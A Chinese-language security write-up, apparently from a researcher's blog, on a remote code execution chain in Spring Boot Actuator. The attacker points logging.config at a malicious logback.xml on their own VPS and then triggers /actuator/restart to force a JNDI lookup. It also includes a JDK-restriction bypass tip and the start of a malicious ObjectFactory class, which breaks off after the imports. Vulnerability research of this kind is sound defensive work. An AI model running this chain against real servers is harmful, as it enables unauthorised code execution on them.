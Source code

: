 ### 0x00: 前言

`spring actuator` 相关的漏洞利用链公布不少了，不过都有些条件限制。

我抽时间看了看 spring boot 的一些常见 properties 配置项，希望能发现一些触发条件没那么苛刻的漏洞利用方法，也发现了一些新的 RCE 方法（目前看也是有条件限制 &gt;\_&lt;）。

本着技术交流的目的，拿其中一个分享下，其他条件比较多的利用方法我可能会抽时间写到 [SpringBootVulExploit](https://github.com/LandGrey/SpringBootVulExploit) 项目里。

### 0x01: 利用限制

`spring actuator` 目前主要有两个差别比较大的版本，1.x 和 2.x 版本。从路由角度看，2.x 版本的路由名一般比 1.x 版本路由名字前多了个 `/actuator` 前缀。本文涉及到的相关漏洞原理经过测试与 `spring actuator` 大版本的相关度差别不大，下文统一用 2.x 版本举例。

`spring actuator` 触发漏洞相关的内置路由，比如 `/actuator/env` 容易被误启用，但是 `/actuator/restart` 路由开启的情况比较少，

```php
spring actuator 1.x 开启 restart 需要配置:
endpoints.restart.enabled=true

spring actuator 2.x 开启 restart 需要配置:
management.endpoint.restart.enabled=true
```

这个漏洞利用方法正式一点的名称应该叫 spring actuator restart logging.config logback jndi rce，都是利用一些已知条件堆起来的，主要利用方法和 [jolokia-logback-jndi-rce](https://github.com/LandGrey/SpringBootVulExploit#0x04jolokia-logback-jndi-rce) 相差不大，所以需要的条件也基本类似。

另外顺便提一句，JNDI 注入环境在存在相关 tomcat 版本的话，可以用 `javax.el.ELProcessor` 作为 Reference Factory 来绕过高版本 JDK 的限制。

### 0x02: 漏洞原理

logging.config 配置项用来指定 Logback 组件的日志配置文件位置，通过 `/actuator/env` 配置恶意远程日志地址，如 `http://your-vps-ip/logback.xml` 后，请求 `/actuator/restart` 会触发该漏洞。

感兴趣的师傅可以把 debug 断点设置在 `logback-classic-1.2.3-sources.jar!/ch/qos/logback/classic/util/JNDIUtil.java` 文件 38 行左右的代码处

```php
Object lookup = ctx.lookup(name);
```

触发漏洞后查看调用栈。

与 [jolokia-logback-jndi-rce](https://github.com/LandGrey/SpringBootVulExploit#0x04jolokia-logback-jndi-rce) 不同的是，如果 jndi 返回的 object 没有实现 `javax.naming.spi.ObjectFactory` 接口，`restart` 触发漏洞后应用程序会直接报错退出。

其他通过 `restart` 触发的漏洞也有类似报错退出的问题，所以利用时要比较小心。

### 0x03: 漏洞利用

##### 一：准备要执行的 Java 代码

可以配合 `marshalsec` ，自己编写一个实现 `javax.naming.spi.ObjectFactory` 接口的类进行使用，比如

```php
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import javax.naming.Context;
import javax.naming.Name;
import java.io.File;
import java.io.IOException;
import java.util.Hashtable;

```